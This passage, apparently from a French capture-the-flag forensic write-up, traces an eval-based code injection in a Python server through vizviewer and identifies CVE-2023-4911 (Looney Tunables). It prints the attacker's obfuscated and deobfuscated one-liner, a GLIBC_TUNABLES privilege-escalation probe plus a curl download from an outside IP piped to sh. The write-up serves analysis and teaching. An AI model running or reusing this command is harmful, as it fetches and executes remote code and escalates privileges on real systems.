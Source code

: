 ```python
```

L'utilisation de la fonction `eval`, dans un contexte où un utilisateur peut passer des arguments non vérifiés est une vulnérabilité critique dans un code Python. En effet, `eval` permet l'évaluation de code, passé sous la forme d'une chaîne de caractères.

Dans la barre de recherche de `vizviewer`, nous pouvons chercher les références à cette fonction : 

![](images/2024-05-09-14-40-34.png)

79 appels à `eval` ont été effectué dans la capture. Afin d'éviter de les inspecter un à un, nous pouvons chercher les chaînes d'erreurs, qui auraient potentiellement été renvoyées si du code avait été envoyé, à la place d'un entier (`file_size`). Cherchons "Inadequate file size." :

![](images/2024-05-09-14-43-57.png)

Un seul thread (qui représente ici un échange client<->serveur) comporte ce message d'erreur. Avec un rapide coup d'oeil, nous pouvons voir que la fonction `builtins.eval` a appelé la fonction `system` du module `os`, permettant d'exécuter du code sur le système, depuis Python. Inspectons le bloc `popen` pour voir ce que `vizviewer` nous propose : 

![](images/2024-05-09-14-46-54.png)

Nous obtenons de précieuses informations, sur les arguments passés à `popen`, et notamment la commande : 

```sh
a=;env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf "%08192x" 1`" /usr/bin/su --help||cu${a}rl -sk ht${a}tp:${a}/${a}/82.${a}105${a}.114${a}.${a}101/down1.0|s${a}h &
```

Au premier coup d'oeil, nous remarquons plusieurs éléments suspicieux : 

- Un appel à `/usr/bin/su`
- La récupération d'un contenu distant, sur un serveur HTTP, et son exécution dans un `shell`
- Une tentative d'obfuscation

Pour y voir plus clair, nous pouvons retirer les caractères `${a}`, qui sont en réalité une substitution par un caractère vide : 

```sh
# Utilisation de sed, avec le délimiteur "@" : s@CHAINE_RECHERCHEE@CHAINE_DE_REMPLACEMENT@g
$ echo 'a=;env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf "%08192x" 1`" /usr/bin/su --help||cu${a}rl -sk ht${a}tp:${a}/${a}/82.${a}105${a}.114${a}.${a}101/down1.0|s${a}h &' | sed 's@${a}@@g'

a=;env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf "%08192x" 1`" /usr/bin/su --help||curl -sk http://82.105.114.101/down1.0|sh &
```

L'énoncé nous demande de retrouver la CVE utilisée pour élever les privilèges, déductible de la charge malveillante ayant exécuté du code. Il semblerait que l'attaquant ait cherché à vérifier la vulnérabilité du système, avant d'exécuter une seconde charge. Le mot clé `GLIBC_TUNABLES` n'est pas commun, nous pouvons le chercher sur Google : https://www.google.com/search?q=GLIBC_TUNABLES. 

Dans les premiers résultats, des références à `CVE-2023-4911 Looney Tunables Exploit` apparaissent. Avec quelques recherches additionnelles, nous pouvons même retrouver la commande sur le GitHub https://github.com/ruycr4ft/CVE-2023-4911 :
